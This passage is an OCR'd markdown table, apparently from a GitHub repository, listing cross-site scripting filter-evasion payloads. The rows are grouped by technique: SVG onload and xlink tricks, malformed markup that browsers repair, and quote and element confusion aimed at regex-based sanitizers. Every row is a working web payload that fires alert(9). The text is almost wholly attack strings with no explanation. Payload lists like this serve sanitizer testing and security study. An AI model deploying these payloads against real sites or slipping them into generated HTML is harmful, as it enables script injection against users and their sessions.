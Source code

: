 |                 |                        | `<g onload="javascript:alert(9)"></g></svg>`                                      |
|                 |                        | `<svg><script xlink:href=data:,alert(9)></script>`                                |
|                 |                        | `<svg xmlns="http://www.w3.org/2000/svg">`                                        |
|                 |                        | `<a xmlns:xlink="http://www.w3.org/1999/xlink" xlink:href="javascript:alert(9)">` |
|                 |                        | `<rect width="1000" height="1000" fill="white"/></a></svg>`                       |
+-----------------+------------------------+-----------------------------------------------------------------------------------+
| Untidy <br>     | Missing greater-than   | `<script%0d%0aalert(9)</script>`                                                  |
| markup          | sign                   | `<script%20<!--%20-->alert(9)</script>`                                           |
|                 |                        |                                                                                   |
|                 | Recover from           | `<a href=""&<img&amp;/onclick=alert(9)>foo</a>`                                   |
|                 | syntax error           | `<script/<a>alert(9)</script>`                                                    |
|                 |                        | `<script/<a>alert(9)</script </a>`                                                |
|                 |                        |                                                                                   |
|                 | Uncommon syntax        | `<a""id=a href=''onclick=alert(9)>foo</a>`                                        |
|                 |                        |                                                                                   |
|                 | Orphan entity          | `<a href=""&amp;/onclick=alert(9)>foo</a>`                                        |
|                 |                        |                                                                                   |
|                 | Vestigal attribute     | `<script/id="a">alert(9)</script>`                                                |
+-----------------+------------------------+-----------------------------------------------------------------------------------+
| Anti-regex <br> | Element closed         | `<img src=">"onerror=alert(9)>`                                                   |
| patterns        | prematurely            |                                                                                   |
|                 |                        |                                                                                   |
|                 | Element confusion      | `<img id="><"class="><"src=">"onerror=alert(9)>`                                  |
|                 |                        |                                                                                   |
|                 | Quote confusion        | `<img src="\"a=">"onerror=alert(9)>`                                              |
|                 |                        | `<a id=' href="">'href=javascript:alert(9)>foo</a>`                               |
|                 |                        | `<a id='href=http://web.site/'onclick=alert(9)>foo</a>`                           |
|                 |                        | `<a href= . '"\' onclick=alert(9) '"'>foo</a>`                                    |
|                 |                        |                                                                                   |
|                 | Quote confusion        | `<img src="\"'<a href='">"'onerror=alert(9)>`                                     |
|                 | with element           | `<a id='http://web.site/'onclick=alert(9)<!--href=a>foo</a>-->`                   |
|                 |                        |                                                                                   |
|                 | Quote mixing           | `<img src="'"id='<img src="">'onerror=alert(9)>`                                  |
|                 | with element           |                                                                                   |
|                 |                        |                                                                                   |
|                 | Recursive elements     | `<img src="<img src='<img src=.>'>"onerror=alert(9)>`                             |
|                 |                        |                                                                                   |